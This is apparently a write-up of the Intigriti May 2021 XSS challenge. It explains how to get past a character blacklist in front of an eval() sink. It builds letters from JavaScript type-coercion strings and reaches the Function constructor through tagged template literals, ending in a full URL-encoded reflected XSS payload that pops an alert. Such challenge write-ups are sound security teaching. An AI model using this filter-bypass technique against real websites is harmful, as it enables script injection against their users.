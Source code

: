 ```yaml
---
parent: 2021
title: May
nav_order: 1
---
```


## Write-up
Looking at the [source](view-source:https://challenge-0521.intigriti.io/captcha.php) of the challenge, we see that there is a sink within the function `calc()` on lines 99 onward:

```js
function calc() {
        const operation = a.innerText + b.innerText + c.value;
        if (!operation.match(/[a-df-z<>()!\\='"]/gi)) { // Allow letter 'e' because: https://en.wikipedia.org/wiki/E_(mathematical_constant)
            if (d.innerText == eval(operation)) {
```

Where the variable `c` contains the value within the only input box on the page.

<image src="images/1.jpg" />

Seems like we can directly reach the `eval()` sink by injecting our JS code within the HTML input box. However, there is a regex filter that will reject any input that contains any of the blacklisted characters. It appears that only numbers, the letter "e", and some special characters are permitted.

The goal is to be able to pop an alert box with the domain, so our final payload could be something like:

```js
Function(alert(document.domain))()
```

<image src="images/2.jpg" />

One way to achieve XSS under such constraints would be to use [JSF**k](https://github.com/aemkei/jsfuck). However, it requires the characters `!` and `( )`, which are blacklisted.

<image src="images/3.jpg" />

It would appear that we have to construct our own modified version of JSF**k by making use of the allowed characters (`[ ] + {}` etc) and then obtaining english alphabets by extracting the characters from the output. For example, the following shows the various output based on the input in JavaScript:

| OUTPUT | INPUT |
|--------|-------|
|`"NaN"`| `[]-{}+[]` |
|`"undefined"`|`[][[]]+[]`|
|`"[object Object]"`|`[]+{}`|
|`"Infinity"`| `1e999+[]`<br> ***e** is not blacklisted by the regex*|
|`"[object HTMLProgressElement]"`|`e+[]`<br> *accesses the **"e"** HTML element*|

> Appending `+[]` casts the output to string type.

This is how the input and output looks like:

<image src="images/4.jpg" />

We can then extract the alphabets from these output by the following format:

```js
[INPUT][0][pos]   // where INPUT is the input characters and pos is the charAt character to obtain
```

An example to retrieve the letter "d" (*INPUT = `[][[]]+[]`, pos = `2`*):

<image src="images/5.jpg" />

As a result, we now have access to the following charset:

```
a => [[]-{}+[]][0][1]
b => [[]+{}][0][2]
c => [[]+{}][0][5]
d => [[][[]]+[]][0][2]
e => [[][[]]+[]][0][3]
f => [[][[]]+[]][0][4]
g => [e+[]][0][13]
i => [[][[]]+[]][0][5]
j => [[]+{}][0][3]
l => [e+[]][0][21]
m => [e+[]][0][23]
n => [[][[]]+[]][0][1]
o => [[]+{}][0][1]
r => [e+[]][0][13]
s => [e+[]][0][18]
t => [1e999+[]][0][6]
u => [[][[]]+[]][0][0]
y => [1e999+[]][0][7]
```

We are still missing some characters from our payload goal:

```js
Function(alert(document.domain))()
```

An alternative way, instead of using the word `Function`, we could use the string `[]["find"]["constructor"]` to retrieve the [constructor](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Object/constructor) of a native function (in this case, *"find"*). Effectively, this means that we are using `Function`. So, our payload becomes:

```js
[]["find"]["constructor"](alert(document.domain))()
```

Backticks (`) are also not filtered, so we replace it in the payload goal. It now looks like

```js
[]["find"]["constructor"]`alert(document.domain)```
```

<image src="images/6.jpg" />

Now, we just need to form the string `alert(document.domain)`. Let us see what is the output of `[]["find"]["constructor"]` (casting to string with `+[]`):

<image src="images/7.jpg" />

Let's confirm that we are able to extract the alphabets while complying with the regex. This means we have to form the words `find` and `constructor` using the charset we have so far:

```
f => [[][[]]+[]][0][4]
i => [[][[]]+[]][0][5]
n => [[][[]]+[]][0][1]
d => [[][[]]+[]][0][2]
...
```

<image src="images/8.jpg" />

We can now expand our available charset using the same method as before to extract alphabets. Updated charset:

```
a => [[]-{}+[]][0][1]
b => [[]+{}][0][2]
c => [[]+{}][0][5]
d => [[][[]]+[]][0][2]
e => [[][[]]+[]][0][3]
f => [[][[]]+[]][0][4]
g => [e+[]][0][13]
i => [[][[]]+[]][0][5]
j => [[]+{}][0][3]
l => [e+[]][0][21]
m => [e+[]][0][23]
n => [[][[]]+[]][0][1]
o => [[]+{}][0][1]
r => [e+[]][0][13]
s => [e+[]][0][18]
t => [1e999+[]][0][6]
u => [[][[]]+[]][0][0]
v => [[][[[][[]]+[]][0][4]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[[][[]]+[]][0][2]]+[]][0][23]
y => [1e999+[]][0][7]
( => [[][[[][[]]+[]][0][4]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[[][[]]+[]][0][2]]+[]][0][13]
) => [[][[[][[]]+[]][0][4]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[[][[]]+[]][0][2]]+[]][0][14]
```

It appears that we can now form the payload: `alert(document.domain)` with our charset.

```js
[[]-{}+[]][0][1] + [e+[]][0][21] + [[][[]]+[]][0][3] + [e+[]][0][13] + [1e999+[]][0][6] + [[][[[][[]]+[]][0][4]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[[][[]]+[]][0][2]]+[]][0][13] + [[][[]]+[]][0][2] + [[]+{}][0][1] + [[]+{}][0][5] + [[][[]]+[]][0][0] + [e+[]][0][23] + [[][[]]+[]][0][3] + [[][[]]+[]][0][1] + [1e999+[]][0][6] + `.` + [[][[]]+[]][0][2] + [[]+{}][0][1] + [e+[]][0][23] + [[]-{}+[]][0][1] + [[][[]]+[]][0][5] + [[][[]]+[]][0][1] + [[][[[][[]]+[]][0][4]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[[][[]]+[]][0][2]]+[]][0][14]
```

<image src="images/9.jpg" />

However, there is a *caveat* that was discovered when attempting to use this payload:

```js
[]["find"]["constructor"]`[[]-{}+[]][0][1] + [e+[]][0][21] + [[][[]]+[]][0][3] + [e+[]][0][13] + [1e999+[]][0][6] + [[][[[][[]]+[]][0][4]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[[][[]]+[]][0][2]]+[]][0][13] + [[][[]]+[]][0][2] + [[]+{}][0][1] + [[]+{}][0][5] + [[][[]]+[]][0][0] + [e+[]][0][23] + [[][[]]+[]][0][3] + [[][[]]+[]][0][1] + [1e999+[]][0][6] + `.` + [[][[]]+[]][0][2] + [[]+{}][0][1] + [e+[]][0][23] + [[]-{}+[]][0][1] + [[][[]]+[]][0][5] + [[][[]]+[]][0][1] + [[][[[][[]]+[]][0][4]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[[][[]]+[]][0][2]]+[]][0][14]`
```

The `alert(document.domain)` remains "encoded" in the same format that we injected it with:

<image src="images/10.jpg" />

To resolve this, we have to wrap the `alert` payload with `${}` in order for it to process it properly (and not as a literal string). Let's see if this works then:

```js
[]["find"]["constructor"]`${[[]-{}+[]][0][1] + [e+[]][0][21] + [[][[]]+[]][0][3] + [e+[]][0][13] + [1e999+[]][0][6] + [[][[[][[]]+[]][0][4]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[[][[]]+[]][0][2]]+[]][0][13] + [[][[]]+[]][0][2] + [[]+{}][0][1] + [[]+{}][0][5] + [[][[]]+[]][0][0] + [e+[]][0][23] + [[][[]]+[]][0][3] + [[][[]]+[]][0][1] + [1e999+[]][0][6] + `.` + [[][[]]+[]][0][2] + [[]+{}][0][1] + [e+[]][0][23] + [[]-{}+[]][0][1] + [[][[]]+[]][0][5] + [[][[]]+[]][0][1] + [[][[[][[]]+[]][0][4]+[[][[]]+[]][0][5]+[[][[]]+[]][0][1]+[[][[]]+[]][0][2]]+[]][0][14]}`
```

... but to no avail:

<image src="images/11.jpg" />

Looking at the [documentation](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Template_literals#tagged_templates), it appears that tagged literals are handled in a unique way. It appears to expect a string before and after the `${}` template before passing the contents of `${}` into the function (anonymous function in this case).

So, we will do something like:

```js
[]["find"]["constructor"]`e1${PAYLOAD}e1`
// "e1" is used since we have to comply with the regex still
```

<image src="images/12.jpg" />

All looks well, so we will invoke the function immediately by appending 2 more backticks to the payload:

```js
[]["find"]["constructor"]`e1${PAYLOAD}e1```
```

<image src="images/13.jpg" />

Payload works!

Final step, since the solution cannot be a self-XSS, let's see if reflected works by guessing the parameter to be `c` (since that is the HTML `id` of the input box)

We URL-encode it and the final URL is thus:

```
https://challenge-0521.intigriti.io/captcha.php?c=%5B%5D%5B%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B0%5D%5B4%5D%20%2B%20%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B0%5D%5B5%5D%20%2B%20%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B0%5D%5B1%5D%20%2B%20%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B0%5D%5B2%5D%5D%5B%5B%5B%5D%2B%7B%7D%5D%5B0%5D%5B5%5D%20%2B%20%5B%5B%5D%2B%7B%7D%5D%5B0%5D%5B1%5D%20%2B%20%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B0%5D%5B1%5D%20%2B%20%5Be%2B%5B%5D%5D%5B0%5D%5B18%5D%20%2B%20%5B1e999%2B%5B%5D%5D%5B0%5D%5B6%5D%20%2B%20%5Be%2B%5B%5D%5D%5B0%5D%5B13%5D%20%2B%20%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B0%5D%5B0%5D%20%2B%20%5B%5B%5D%2B%7B%7D%5D%5B0%5D%5B5%5D%20%2B%20%5B1e999%2B%5B%5D%5D%5B0%5D%5B6%5D%20%2B%20%5B%5B%5D%2B%7B%7D%5D%5B0%5D%5B1%5D%20%2B%20%5Be%2B%5B%5D%5D%5B0%5D%5B13%5D%5D%60e1%24%7B%5B%5B%5D%2D%7B%7D%2B%5B%5D%5D%5B0%5D%5B1%5D%20%2B%20%5Be%2B%5B%5D%5D%5B0%5D%5B21%5D%20%2B%20%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B0%5D%5B3%5D%20%2B%20%5Be%2B%5B%5D%5D%5B0%5D%5B13%5D%20%2B%20%5B1e999%2B%5B%5D%5D%5B0%5D%5B6%5D%20%2B%20%5B%5B%5D%5B%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B0%5D%5B4%5D%2B%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B0%5D%5B5%5D%2B%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B0%5D%5B1%5D%2B%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B0%5D%5B2%5D%5D%2B%5B%5D%5D%5B0%5D%5B13%5D%20%2B%20%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B0%5D%5B2%5D%20%2B%20%5B%5B%5D%2B%7B%7D%5D%5B0%5D%5B1%5D%20%2B%20%5B%5B%5D%2B%7B%7D%5D%5B0%5D%5B5%5D%20%2B%20%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B0%5D%5B0%5D%20%2B%20%5Be%2B%5B%5D%5D%5B0%5D%5B23%5D%20%2B%20%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B0%5D%5B3%5D%20%2B%20%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B0%5D%5B1%5D%20%2B%20%5B1e999%2B%5B%5D%5D%5B0%5D%5B6%5D%20%2B%20%60%2E%60%20%2B%20%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B0%5D%5B2%5D%20%2B%20%5B%5B%5D%2B%7B%7D%5D%5B0%5D%5B1%5D%20%2B%20%5Be%2B%5B%5D%5D%5B0%5D%5B23%5D%20%2B%20%5B%5B%5D%2D%7B%7D%2B%5B%5D%5D%5B0%5D%5B1%5D%20%2B%20%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B0%5D%5B5%5D%20%2B%20%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B0%5D%5B1%5D%20%2B%20%5B%5B%5D%5B%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B0%5D%5B4%5D%2B%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B0%5D%5B5%5D%2B%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B0%5D%5B1%5D%2B%5B%5B%5D%5B%5B%5D%5D%2B%5B%5D%5D%5B0%5D%5B2%5D%5D%2B%5B%5D%5D%5B0%5D%5B14%5D%7De1%60%60%60
```

Clicking the "Submit" button, the XSS will be triggered.

<image src="images/proof.jpg" />

